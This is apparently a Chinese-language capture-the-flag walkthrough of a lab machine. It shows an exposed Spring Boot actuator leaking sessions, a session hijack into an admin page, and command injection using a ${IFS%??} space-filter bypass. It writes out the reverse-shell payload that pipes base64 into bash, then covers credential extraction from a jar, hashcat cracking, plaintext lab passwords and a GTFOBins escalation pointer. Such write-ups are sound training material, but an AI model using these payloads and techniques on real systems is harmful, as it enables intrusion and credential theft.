zhishidi

## 知识点

- actuator未授权
- session泄露
- 命令行注入
- linux分隔符绕过
- hash爆破

## 正文

首先端口扫描



22和80开放。



web界面如下


除了login转向一个登陆界面，其他的都是静态的。



fuzz登录框，没有什么结果。每一次都会返回一个sessionid，猜测可以通过更改session获取登录态。

路径扫描后发现与有actuator和admin子路径。其中admin的状态是401，应该是未登录状态的原因。



打开actuator，很明显是actuator未授权，后台是java。



根据刚才的猜测，sessions是关键。但是还是先看看env。



里面的value都是星号，脱敏的[方法]( https://github.com/LandGrey/SpringBootVulExploit#0x03%E8%8E%B7%E5%8F%96%E8%A2%AB%E6%98%9F%E5%8F%B7%E8%84%B1%E6%95%8F%E7%9A%84%E5%AF%86%E7%A0%81%E7%9A%84%E6%98%8E%E6%96%87-%E6%96%B9%E6%B3%95%E4%B8%80)。没有脱敏的条件。

还是看回sessions。



里面有一个不是未授权的session，将这个session替换，随即进入admin。



只有这个输入框可以交互，其他的都是静态的。

这里对输入框进行fuzz



所有为302状态返回的包，其Location返回都是类似报错。这个报错明显是ssh命令行出错，说明这里输入框的参数直接进入了命令行。可能存在命令注入。



在这里尝试反弹shell，



报错，这里不能包含空格。并且urlencode也不能绕过。



这里要做的就是想办法找到绕过空格检测的方式。使后端java无法识别但是linux能够识别的空格字符。这里linux内部字段分隔符([$IFS](https://bash.cyberciti.biz/guide/$IFS))可以起到作用。使用${IFS%??}替代空格，这里${IFS%??}的意思是：

在 Bash shell 脚本中，`${IFS%??}` 是一个参数扩展表达式。这里的 `IFS` 是一个特殊的 shell 变量，代表 Internal Field Separator（内部字段分隔符）。默认情况下，`IFS` 包含空格、制表符和换行符。

`${IFS%??}` 中的 `%` 是一种参数扩展操作符，用于从变量值的尾部删除匹配的字符串。在这个例子中，`??` 匹配任何两个字符，所以 `${IFS%??}` 会删除 `IFS` 变量值的最后两个字符。

总的来说，`${IFS%??}` 会返回一个新的字符串，这个字符串是 `IFS` 变量值的前面部分，不包括最后两个字符。那就相当于是从空格、制表符和换行符中删除后两位，就只剩下空格。所以注入的反弹shell为

```bash
;echo${IFS%??}"Base64EncodedString"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

(注意前后的分号)，url encode后再次尝试，反弹成功。

当前目用户是app，路径下有一个.jar文件。下载下来(文件比较大，需要下载一会儿)



这是个springboot的jar文件。解压后可以看到用户kanderson和密码。



在application.properties中可以看到数据库相关的信息



于是尝试登录PostgreSQL。



在数据库中有两个用户，一个kanderson一个admin，通过hashcat尝试kanderson的密码就是jar中的密码MRdEQuv6~6P9。



利用hashcat爆破admin的密码。



得到密码manchesterunited。



尝试用admin和kanderson登录ssh，都失败。

cat /etc/passwd 看到用户名为josh。



su josh 密码为数据库中admin的密码manchesterunited。

登录到josh 得到user flag。




## 提权

sudo -l

https://gtfobins.github.io/gtfobins/ssh/


